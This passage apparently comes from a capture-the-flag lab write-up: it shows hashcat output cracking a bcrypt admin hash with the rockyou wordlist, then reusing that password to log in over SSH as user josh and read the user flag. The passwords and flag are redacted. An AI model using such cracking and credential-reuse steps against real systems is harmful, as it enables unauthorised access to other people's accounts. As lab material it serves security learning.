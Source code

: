 ```bash
* Filename..: /usr/share/seclists/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

Cracking performance lower than expected?

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:REDACTED
```

The hash for the admin user was cracked quickly. There was no user named admin on the box, but I tried the password with josh.

```bash
$ ssh josh@target
josh@target's password:
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-82-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Oct 22 10:53:27 PM UTC 2023

  System load:           0.0
  Usage of /:            59.9% of 5.42GB
  Memory usage:          43%
  Swap usage:            0%
  Processes:             237
  Users logged in:       0
  IPv4 address for eth0: 10.129.74.29
  IPv6 address for eth0: dead:beef::250:56ff:feb0:5d28


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Aug 29 09:03:34 2023 from 10.10.14.41

josh@cozyhosting:~$ cat user.txt
REDACTED
```
